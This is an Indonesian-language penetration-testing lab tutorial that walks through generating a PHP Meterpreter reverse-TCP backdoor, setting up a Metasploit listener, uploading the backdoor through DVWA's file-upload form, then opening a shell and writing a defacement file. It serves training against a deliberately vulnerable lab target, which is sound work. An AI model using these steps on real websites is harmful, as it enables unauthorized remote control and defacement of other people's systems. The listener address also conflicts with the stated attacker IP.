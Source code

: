 ## Lesson 8 : Upload PHP Backdoor Payload 

Pada lesson ini mengajarkan cara membuat backdoor pada website dengan cara memanfaatkan form upload file. pembuatan backdoor dengan payload yang sudah disediakan ada msfconsole. 

NOTE
----

* ip website dvwa : 192.168.56.102
* ip backtack 	: 192.168.56.101

| **Langkah 1: Membuat Reverse TCP Payload** |
| :--- |

1. Pada backtrack masuk ke direktori `/root/backdoor/`     

2. Membuat reverse tcp payload dengan menggunakan `msfpayload php/meterpreter/reverse_tcp`. buat file payload dengan command berikut

![](/assets/lesson8/2.PNG)

3. Setelah file payload terbuat, buka dengan vi dan hilangkan tanda '#' agar script bisa berjalan. dengan cara menjalankan 
	* `vi PHONE_HOME.php`
	* tekan 'x' untuk menghapus 
	* masukkan ":wq!"

| **Langkah 2: Membuat Reverse TCP Listener** |
| :--- |

1. Pada backtrack buka msfconsole dengan menjalankan command `msfconsole` untuk masuk ke metasploit

2. Setelah itu jalankan command berikut untuk membuat reverse tcp listener
	``
		use exploit/multi/handler
		set PAYLOAD php/meterpreter/reverse_tcp
		set LHOST 192.168.1.105
		set LPORT 4444
		exploit
	``

![](/assets/lesson8/3.PNG)

| **Langkah 3: Mengunggah Script Payload Pada DVWA** |
| :--- |

1. Lakukan login pada dvwa

![](/assets/lesson8/4.PNG)	

2. Set DVWA Security ke low

![](/assets/lesson8/5.PNG)	

3. Buka menu Upload, pada form upload pilih file PHONE_HOME.php yang telah dibuat sebelumnya

![](/assets/lesson8/6.PNG)	

4. File PHONE_HOME.php akan disimpan pada 192.168.56.102/dvwa/hackable/uploads/ .

![](/assets/lesson8/7.PNG)	

| **Langkah 4: Menggunakan Payload untuk Mengendalikan DVWA** |
| :--- |

1. Pada link tempat file disimpan, klik file agar dvwa menjalankan file tersebut.

![](/assets/lesson8/7.PNG)	

2. Buka msfconsole untuk melakukan command terhadap dvwa. Pada msfconsole akan muncul meterpreter kemudian masukkan command `shell` untuk dapat memulai shell scripting

3. Jalankan command berikut pada
	``
		uptime
		pwd
		whoami
		w
		echo "Hacked at 4-23-2012, by Your Name" > hacked.html
		ls -l
	``

![](/assets/lesson8/8.PNG)

4. Dari command tersebut akan terbuat file hacked.html pada 192.168.56.102/dvwa/hackable/uploads/hacked.html

![](/assets/lesson8/9.PNG)
      